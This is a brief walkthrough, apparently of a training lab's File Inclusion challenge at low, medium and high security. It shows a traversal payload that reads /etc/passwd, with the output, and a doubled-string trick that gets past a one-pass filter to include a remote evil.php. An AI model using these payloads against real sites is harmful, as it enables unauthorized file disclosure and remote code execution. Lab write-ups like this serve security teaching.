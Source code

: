 # File Inclusion

The file inclusion challenge gives a single instruction:

```
To include a file edit the ?page=index.php in the URL to determine which file is included. 
```

## Low

```php
$file = $_GET['page']; //The page we wish to display
```

```
?page=../../../../../../../../../../etc/passwd
```

Result:

```
root:x:0:0:root:/root:/bin/bash
[..redacted]
jsrn:x:1000:1000:jsrn,,,:/home/jsrn:/bin/zsh
```

## Medium

```php
$file = $_GET['page']; // The page we wish to display 

// Bad input validation
$file = str_replace("http://", "", $file);
$file = str_replace("https://", "", $file);
```

This input validation is indeed bad! It removes all instances of `http://` or `https://` from the file name before including it. In theory, this means we can no longer include a file by url.

*Except...*

```
?page=hthttp://tp://www.example.com/evil.php
```

still works! The str_replace only does one pass, so once the first is removed, the result is still:

```
?page=http://www.example.com/evil.php
```

Muahaha.

## High

```php
$file = $_GET['page']; //The page we wish to display 

// Only allow include.php
if ( $file != "include.php" ) {
    echo "ERROR: File not found!";
    exit;
}
```

Finally, they're using a whitelist. A very short whitelist. That brings our file inclusion hijinks to an end.